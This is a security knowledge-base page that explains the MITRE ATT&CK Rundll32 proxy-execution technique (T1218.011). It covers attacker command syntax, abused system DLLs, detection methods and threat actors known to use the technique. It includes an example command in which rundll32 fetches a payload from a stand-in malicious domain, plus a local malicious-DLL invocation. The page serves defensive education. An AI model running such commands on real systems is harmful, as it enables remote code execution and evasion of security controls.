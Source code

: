 ```yaml
---
description: Rundll32 [T1218.011]
icon: file-code
---
```


# Rundll32

## Information

* Name: Rundll32
* ID: T1218.011
* Tactics: [TA0005](../)
* Technique: [T1218](./)

## Introduction

Rundll32 (T1218.011) is a sub-technique within the MITRE ATT\&CK framework categorized under Signed Binary Proxy Execution. Attackers leverage the legitimate Windows executable "rundll32.exe" to execute malicious code or payloads. Rundll32.exe is a standard Windows utility designed to load and execute dynamic link libraries (DLLs), making it an attractive target for adversaries aiming to bypass security defenses and execute arbitrary code while appearing legitimate.

## Deep Dive Into Technique

The Windows utility "rundll32.exe" is designed to execute functions exported from DLL files. Its legitimate purpose is to allow users and applications to invoke specific DLL functions directly from the command line or scripts. Attackers abuse this functionality by crafting malicious DLLs or referencing legitimate DLLs that contain exploitable or unintended functions.

Technical details include:

*   Command syntax typically used by attackers:

    ```
    rundll32.exe <DLL Name>,<Function Name> [arguments]
    ```
* Malicious DLLs may contain exported functions specifically crafted for exploitation and payload delivery.
* Attackers may also exploit legitimate system DLLs by invoking functions that can execute arbitrary code or scripts.
* Rundll32 can be used to execute payloads directly from disk, memory, or remote locations, providing attackers with a flexible execution vector.
* Commonly abused legitimate DLLs include:
  * `shell32.dll`
  * `url.dll`
  * `advpack.dll`
  * `ieadvpack.dll`

Real-world procedures include:

*   Execution of malicious payloads stored remotely via URL:

    ```
    rundll32.exe url.dll,OpenURL http://malicious-domain.com/payload.dll
    ```
*   Execution of DLLs loaded directly from disk:

    ```
    rundll32.exe malicious.dll,EntryPoint
    ```
* Execution of payloads stored in the registry or encoded within scripts.

## When this Technique is Usually Used

Attack scenarios and stages where attackers typically leverage Rundll32 include:

* **Initial Access and Execution:**
  * Delivering initial payloads after successful phishing attacks or drive-by downloads.
  * Executing payloads immediately following exploitation of vulnerabilities.
* **Defense Evasion and Persistence:**
  * Bypassing application allowlisting, endpoint protection, and antivirus software by masquerading as legitimate system activity.
  * Establishing persistence through registry modifications or scheduled tasks invoking rundll32 commands.
* **Privilege Escalation and Lateral Movement:**
  * Executing DLL payloads that exploit system vulnerabilities or misconfigurations to escalate privileges.
  * Facilitating lateral movement by executing payloads remotely on compromised hosts.
* **Command and Control (C2) and Exfiltration:**
  * Executing payloads designed to establish persistent communication channels to attacker-controlled servers.
  * Running DLLs that facilitate data exfiltration or remote access.

## How this Technique is Usually Detected

Effective detection of Rundll32 misuse involves monitoring and analyzing process execution patterns, command-line arguments, and DLL loading behaviors. Detection methods include:

* **Process Monitoring and Analysis:**
  * Monitor the execution of "rundll32.exe" processes, especially those initiated from unusual parent processes, locations, or user contexts.
  * Analyze command-line arguments for suspicious DLL names, functions, or remote URLs.
* **DLL Loading Behavior:**
  * Monitor DLL loads by rundll32.exe, particularly those from temporary directories, user directories, or unusual paths.
  * Track DLLs loaded from remote locations or network shares.
* **Endpoint Detection and Response (EDR) Tools:**
  * Utilize EDR solutions to detect anomalous rundll32.exe behavior, including suspicious command-line parameters and unusual DLL loads.
  * EDR platforms such as Microsoft Defender ATP, CrowdStrike Falcon, Carbon Black, and SentinelOne provide built-in detection rules for suspicious rundll32 activity.
* **Security Information and Event Management (SIEM):**
  * Aggregate and correlate logs from endpoints and network devices to identify anomalous rundll32 executions.
  * Create alerts and rules based on known suspicious rundll32 command-line patterns or DLL execution paths.
* **Indicators of Compromise (IoCs):**
  * Unusual rundll32.exe command-line arguments referencing suspicious DLL files or URLs.
  * DLL files located in temporary directories, user profiles, or unusual system locations.
  * Registry entries or scheduled tasks invoking rundll32.exe with suspicious parameters.

## Why it is Important to Detect This Technique

Detecting the misuse of rundll32.exe is critical due to its potential impact on systems and networks:

* **Stealth and Defense Evasion:**
  * Attackers exploit legitimate system binaries to avoid detection by traditional antivirus and endpoint protection tools.
  * Rundll32 misuse can bypass application allowlisting and evade security controls, increasing the likelihood of successful compromise.
* **Persistence and Long-Term Access:**
  * Misuse of rundll32.exe can enable attackers to establish persistent footholds on compromised systems, making remediation challenging.
  * Persistent malicious DLL execution can lead to prolonged attacker presence and continued exploitation.
* **Privilege Escalation and Lateral Movement:**
  * Malicious DLL payloads executed via rundll32 can facilitate privilege escalation, lateral movement, and deeper network compromise.
  * Early detection prevents attackers from expanding their access and escalating privileges.
* **Data Theft and Exfiltration:**
  * Payloads executed through rundll32.exe can enable attackers to exfiltrate sensitive information, intellectual property, and credentials.
  * Early detection and mitigation reduce the risk of significant data breaches and associated damages.

## Examples

Real-world examples highlighting the misuse of rundll32.exe include:

* **APT29 (Cozy Bear):**
  * Utilized rundll32.exe to execute malicious DLL payloads during the initial compromise and persistence phases.
  * Leveraged rundll32 commands to load DLLs from disk, enabling stealthy execution and evasion of endpoint protection.
* **FIN7 Cybercrime Group:**
  * Employed rundll32.exe to execute malicious payloads downloaded from remote servers as part of targeted attacks against financial institutions and retail organizations.
  * Used rundll32.exe commands referencing URLs to execute DLL payloads directly from remote attacker-controlled servers.
* **Qbot Malware:**
  * Frequently leverages rundll32.exe to execute malicious DLL payloads stored in user directories or temporary folders.
  * Executes payloads via command-line parameters referencing malicious DLL entry points, enabling persistence and data exfiltration.
* **TrickBot Malware:**
  * Utilizes rundll32.exe extensively to execute malicious DLL payloads during initial infection and lateral movement phases.
  * Executes malicious DLLs from unusual locations, such as AppData directories, to evade detection and establish persistence.

These examples illustrate the widespread use of rundll32.exe misuse across diverse threat actors and malware families. Detecting and mitigating this technique is critical for defending against advanced persistent threats (APTs), cybercriminal groups, and malware infections.
